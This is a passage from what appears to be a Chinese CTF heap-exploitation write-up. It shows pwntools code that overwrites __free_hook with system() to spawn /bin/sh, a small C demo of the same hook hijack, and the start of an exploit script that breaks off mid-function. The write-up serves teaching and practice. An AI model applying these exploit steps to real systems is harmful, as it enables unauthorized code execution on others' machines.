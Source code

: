 ```
libc_addr = 0x7ffff79e2000
```

在之后：

```python 
free_hook = libc.symbols["__free_hook"] + libc_addr
system = libc.symbols["system"] + libc_addr
binsh = libc.search("/bin/sh").next() + libc_addr

payload2 = p64(binsh) + p64(free_hook)
edit(1, payload2)
p.recvuntil("> ")
payload3 = p64(system)
edit(2,payload3)
p.recvuntil("> ")
delete(2)
```

payload2通过修改book1_desc来修改book2_desc指向的地址

 在这段代码中，首先是修改`book1_description`，而此时的book1是之前伪造的book2，也就是说这里的`book1_description_ptr`正好是指向`book2_struct`中的`book2_name_ptr`。通过这个修改，将`book2_name_ptr`改为了binsh字符串的地址，将`book2_description_ptr`改为了`free_hook`指针的地址。然后通过修改`book2_description_ptr`，将`free_hook`中的内容改为了`system()`的地址。之后在删除book2时，会首先调用free()释放`book2_name_ptr`指针指向的地址空间，原本的`free(book2_name_ptr)` 最终变为 `system(binsh_addr)`。

**什么是__free_hook?**举个栗子：

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>

extern void (*__free_hook) (void *__ptr,const void *);

int main()
{
    char *str = malloc(160);
    strcpy(str,"/bin/sh");
    
    printf("__free_hook: 0x%016X\n",__free_hook);
    // 劫持__free_hook
    __free_hook = system;
    free(str);
    return 0;
}
//运行./a.out 就直接运行了system("/bin/sh")
```

**EXP：**

```Python
from pwn import *
context(log_level='DEBUG')
def create(name_len, name, desc_len, desc):
    p.sendline("1")
    p.recvuntil("Enter book name size: ")
    p.sendline(str(name_len))
    p.recvuntil("Enter book name (Max 32 chars): ")
    p.sendline(name)
    p.recvuntil("Enter book description size: ")
    p.sendline(str(desc_len))
    p.recvuntil("Enter book description: ")
    p.sendline(desc)

def delete(index):
    p.sendline("2")
    p.recvuntil("Enter the book id you want to delete: ")
```